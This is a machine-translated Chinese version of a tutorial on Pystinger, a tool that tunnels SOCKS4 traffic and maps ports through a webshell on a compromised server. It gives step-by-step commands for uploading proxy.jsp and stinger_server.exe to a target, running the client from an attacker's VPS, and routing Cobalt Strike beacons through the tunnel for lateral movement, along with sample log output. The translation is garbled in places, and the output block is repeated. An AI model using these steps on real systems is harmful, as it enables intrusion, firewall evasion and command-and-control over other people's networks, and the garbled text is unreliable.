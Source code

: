 # Pystinger:使用 Webshell 绕过防火墙进行流量转发

> 原文：<https://kalilinuxtutorials.com/pystinger-bypass-firewall-for-traffic-forwarding-using-webshell/>

[![Pystinger : Bypass Firewall For Traffic Forwarding Using Webshell](img/3ee7c86ee5482aa86db580a952b3eb7b.png "Pystinger : Bypass Firewall For Traffic Forwarding Using Webshell")](https://1.bp.blogspot.com/-7DKF_9JdRZE/YKEP97CeheI/AAAAAAAAJG0/lBBPdUIQrU4hyJLHIgCHGB3dNbCNI0yYQCLcBGAsYHQ/s728/tunnel%25281%2529.png)

**Pystinger** 通过 webshell 实现 **SOCK4 代理**和**端口映射**。它可以直接由 metasploit-framework、viper、cobalt strike 用于在线会话。Pystinger 是用 python 开发的，目前支持三种代理脚本:php、jsp(x)和 aspx。

**用途**

假设服务器的域名是[http://example.com:8080](http://192.168.3.11:8080/)服务器内网的 IP 地址是 192.168.3.11

**SOCK4 代理**

*   `**proxy.jsp**`上传到目标服务器并确保【http://example.com:8080/proxy.jsp】的[能够访问，页面返回 **`UTF-8`**](http://example.com:8080/proxy.jsp)
*   `**stinger_server.exe**`上传到目标服务器，运行 cmd `start **D:/XXX/stinger_server.exe**`启动 pystinger-server

> 不要直接运行`**D:/xxx/singer_server.exe**`，会造成 TCP 断网

*   在你的 VPS 上运行 **`./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000`**
*   您将看到以下输出

**root@kali:~#。/stinger _ client-w http://example.com:8080/proxy.jsp-l 127 . 0 . 0 . 1-p 60000
2020-01-06 21:12:47673–信息–619–本地监听检查…
2020-01-06 21:12:47674–信息–622–本地监听检查通过
2020-01-06 21:12:47674–信息–信息 远程服务器检查…
2020-01-06 21:12:47，696–INFO–644–远程服务器检查通过
2020-01-06 21:12:47，696–INFO–645–服务器配置—
2020-01-06 21:12:47，696–INFO–647–client _ address _ list =>[] 2020-01-06 21:12:47，696–INFO–647–SERVER _ LISTEN =>127 . 0 . 0 . 1:60010
2020-01-06 21:12:47，696–INFO–647–LOG _ LEVEL =>INFO
2020-01-06 21:12:47，697–INFO
2020-01-06 21:12:47697–INFO–647–READ _ BUFF _ SIZE =>51200
2020-01-06 21:12:47697–INFO–673–TARGET _ ADDRESS:127 . 0 . 0 . 1:60020
2020-01-06 21:12:47697 开始
2020-01-06 21:12:47，703–警告–502–socks 4a 服务器于 127.0.0.1:60000 开始
2020-01-06 21:12:47，703–警告–509–socks 4a 准备接受**

*   现在你已经在`**example.com**`的内网 VPS `**127.0.0.1:60000**`上启动了一个 *socks4a 代理*。
*   现在目标服务器 **( `example.com` ) `127.0.0.1:60020`** 已经映射到 VPS `**127.0.0.1:60020**`

C **多目标全球打击在线信标**

*   `**proxy.jsp**`上传到目标服务器并确保【http://example.com:8080/proxy.jsp】的[能够访问，页面返回 **`UTF-8`**](http://example.com:8080/proxy.jsp)
*   `**stinger_server.exe**`上传到目标服务器，运行 cmd `**start D:/XXX/stinger_server.exe 192.168.3.11**`启动 pystinger-server (192.168.3.11 是目标的内网 IP 地址)

> 192.168.3.11 可以更改为 0.0.0.0

*   在你的 VPS 上运行`**./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000**`
*   您将看到以下输出

**root@kali:~#。/stinger _ client-w http://example.com:8080/proxy.jsp-l 127 . 0 . 0 . 1-p 60000
2020-01-06 21:12:47673–信息–619–本地监听检查…
2020-01-06 21:12:47674–信息–622–本地监听检查通过
2020-01-06 21:12:47674–信息–信息 远程服务器检查…
2020-01-06 21:12:47，696–INFO–644–远程服务器检查通过
2020-01-06 21:12:47，696–INFO–645–服务器配置—
2020-01-06 21:12:47，696–INFO–647–client _ address _ list =>[] 2020-01-06 21:12:47，696–INFO–647–SERVER _ LISTEN =>127 . 0 . 0 . 1:60010
2020-01-06 21:12:47，696–INFO–647–LOG _ LEVEL =>INFO
2020-01-06 21:12:47，697–INFO
2020-01-06 21:12:47697–INFO–647–READ _ BUFF _ SIZE =>51200
2020-01-06 21:12:47697–INFO–673–TARGET _ ADDRESS:127 . 0 . 0 . 1:60020
2020-01-06 21:12:47697 开始
2020-01-06 21:12:47，703–警告–502–socks 4a 服务器于 127.0.0.1:60000 开始
2020-01-06 21:12:47，703–警告–509–socks 4a 准备接受**

*   在 cobaltstrike 上添加监听器，监听器端口是`**60020**`(输出的`**RAT CONFIG**`中的处理程序/监听端口)，监听器地址是`**192.168.3.11**`
*   生成有效负载，上传到目标并运行。
*   当横向移动到其他主机时，可以将有效载荷指向 192.168.3.11:60020 以使信标在线

**自定义标题和代理**

*   如果 webshell 需要配置 cookie 或授权，可以通过— header 参数`**--header "Authorization: XXXXXX,Cookie: XXXXX"**`配置请求头
*   如果需要通过代理访问 webshell，可以通过代理`**--proxy "socks5:127.0.0.1:1081"**`设置代理

[**Download**](https://github.com/FunnyWolf/pystinger#cobaltstrikes-beacon-online-for-single-target)